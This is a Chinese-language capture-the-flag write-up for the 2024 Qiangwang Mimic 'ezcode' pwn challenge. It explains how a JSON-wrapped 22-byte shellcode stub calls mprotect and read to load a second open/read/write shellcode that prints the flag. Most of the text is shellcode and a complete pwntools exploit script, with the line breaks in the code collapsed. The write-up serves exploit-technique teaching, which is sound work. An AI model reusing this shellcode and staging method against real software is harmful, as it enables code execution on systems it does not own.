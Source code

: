 ![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmoo8ZDN7fsJmdNnibupxOwuQx4XOJbKUz6sDZhQibrd3J80sIrcyb6H774Q/640?wx_fmt=png&from=appmsg "")  
# 2024 强网拟态 ezcode  
## 程序保护  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmooAiah2o4JeTbkNKN6D8NdpLicrJibvdoWauKtxJnlwZz6LNKg8l7Ricxic0A/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmooic1L8pQZOt2ciaMe2yIJYlUFMzgaaglHrENCvOxP0UpYeDfOibQJAwLUQ/640?wx_fmt=png&from=appmsg "")  
  
这里有个cJSON_Parse 将JSON字符串反序列化为CJSON结构体 并且cJSON_GetObjectItemCaseSensitive(v7, "shellcode"); 取的是shellcode的值 因此我们只要  
```
{"shellcode":content.hex()}
```  
  
以这个格式就可以传输了 我们可以测试一下  
  
可以看到我们是可以传输的：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmooC0WAfJRMmCgJnCwF7X1nKyPLepe0ItVs1NzU5J3qt4nN5ibqciaeOKWw/640?wx_fmt=png&from=appmsg "")  
  
但是题目限制了22字节的shellcode 并且此时的0x9998000段是没有可写权限的 因此我们要mprotect赋予权限 并且 再次read一次读入orw的shellcode  
  
这里要设置一下  
  
rdi要为0x9998000 rsi要为len 不变就行 rdx为7  
```
shl edi,12mov ax,10mov dx,7syscall
```  
  
rdi为  
```
xor eax, eax;xor edi, edi;mov dl, 0xff;mov esi, ecx;syscall
```  
  
但是这里是24字节，多了两字节 可以从这里优化mov dx,7 改为lea edx,[rax-3]  
  
刚好22字节 然后就读入shellcode进行orw就可以了  
  
orw_shellcode  
```
mov rdi,rsixor rsi,rsixor rdx,rdxmov rax,2syscallxor rdi,0xcmov rsi,rdixor dl,30mov rdi,raxxor rax,raxsyscallmov rdi,1mov ax,1syscall
```  
## exp  
```
#!/usr/bin/python3from pwn import *import randomimport osimport sysimport timefrom pwn import *from ctypes import *import json#--------------------setting context---------------------context.clear(arch='amd64', os='linux', log_level='debug')#context.terminal = ['tmux', 'splitw', '-h']sla = lambda data, content: mx.sendlineafter(data,content)sa = lambda data, content: mx.sendafter(data,content)sl = lambda data: mx.sendline(data)rl = lambda data: mx.recvuntil(data)re = lambda data: mx.recv(data)sa = lambda data, content: mx.sendafter(data,content)inter = lambda: mx.interactive()l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))s=lambda data: mx.send(data)log_addr=lambda data: log.success("--->"+hex(data))p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))def dbg():    gdb.attach(mx)#---------------------------------------------------------# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')filename = "./vuln"mx = process(filename)#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)elf = ELF(filename)libc=elf.libc#初始化完成---------------------------------------------------------\content=asm('''shl edi, 12mov ax,10lea edx,[rax-3]syscallxor eax, eax;xor edi, edi;mov dl, 0xff;mov esi, ecx;syscall''')print(len(content))payload={"shellcode":content.hex()}sl(json.dumps(payload))orw=asm('''mov rdi,rsixor rsi,rsixor rdx,rdxmov rax,2syscallxor rdi,0xcmov rsi,rdixor dl,30mov rdi,raxxor rax,raxsyscallmov rdi,1mov ax,1syscall''')payload=b'flag\x00'+b'\x00'*5+orwsl(payload)inter()
```  
  